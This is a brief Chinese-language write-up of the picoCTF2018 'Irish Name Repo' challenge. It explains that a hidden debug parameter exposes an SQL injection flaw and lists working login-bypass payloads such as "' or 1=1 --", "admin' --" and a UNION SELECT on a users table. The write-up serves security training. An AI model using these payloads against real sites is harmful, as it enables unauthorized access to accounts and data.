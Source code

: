從原始碼或 burpsuite 可發現存在 hidden 變數 debug<br>
將 debug 值設為 1 即可發現存在 sql injection 漏洞

![image](https://github.com/dreamisadream/CTF/blob/master/picoCTF2018/Irish%20Name%20Repo/irish1.png)

試了幾種後發現
-- 和 ; 可以用
＃ 會出錯

' or 1=1 --
' or 1=1 ;
admin' --
UNION SELECT * FROM users --
